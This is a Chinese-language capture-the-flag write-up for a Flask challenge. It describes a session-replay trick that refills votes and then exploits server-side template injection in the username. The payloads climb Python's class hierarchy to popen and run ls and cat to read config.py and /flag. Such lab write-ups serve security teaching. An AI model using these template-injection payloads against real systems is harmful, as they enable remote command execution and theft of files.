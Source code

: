 # babyflask
*http://123.60.19.253:10001*

---

分析给出的源文件,发现`/success`路由下的`name`存在SSTI漏洞.

继续分析,`name`取自`session['name']`,用户登录时会自动创新用户和删除前一个同名用户的登录信息,那其实我们用注入的代码的作为用户名直接登录即可.

```python
template =  '''
Congratulations, %s. You can get flag now!
''' % name
return render_template_string(template)
```

要想执行到上述代码,需要给flag投满8票(我们手里只有5票),注意到vote是存储在session中,`/vote`接口会校验`session`中保存的vote数量并减一,猜测这里可能存在session会话劫持.

我们第一次登录时复制一下当前的`session`,然后给flag投票,等手里的票用光之后,再把第一次登录时复制的`seesion`粘贴进浏览器保存的Cookie中,我们的票又回来了.

>🤠登录后疯狂点击“投票”,也能投满8票;可能因为Server响应太慢,浏览器中保存的session还没来得及被更新,导致多个请求发起时共用一个session(即vote数量相等),session中保存的vote最终只会减一.

<img src="images/0.jpg" alt="image-20211114190032492" style="zoom:50%;" />

使用如下代码作为用户名登录,查看一下当前已加载模块

```python
{{''.__class__.__bases__[0].__subclasses__()}}
```
<img src="images/1.jpg" alt="image-20211114182131940" style="zoom:50%;" />
人肉计数/写个脚本,找到`os._wrap_close`模块所在的索引,借助于`popen`函数可以直接执行系统命令

```python
num = 0
for i in a.split(', '):
    if 'os._wrap_close' in i:
        print(num)
    num += 1
```

先`ls -a`一下,发现`config.py`

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -a').read()}}
```

![image-20211114183143814](images/2.png)
继续`cat`,没有在`config.py`中找到flag

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat config.py').read()}}
```

![image-20211114183703433](images/3.png)

用`ls -R /`找找,发现存在`/flag`文件

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls -R /').read()}}
```

![image-20211114183857713](images/4.jpg)
直接`cat /flag`即可

```python
{{''.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

![image-20211114184236370](images/5.png)

**flag:**`l3hsec{emmMmMM_mm~mMMmm~~T}`

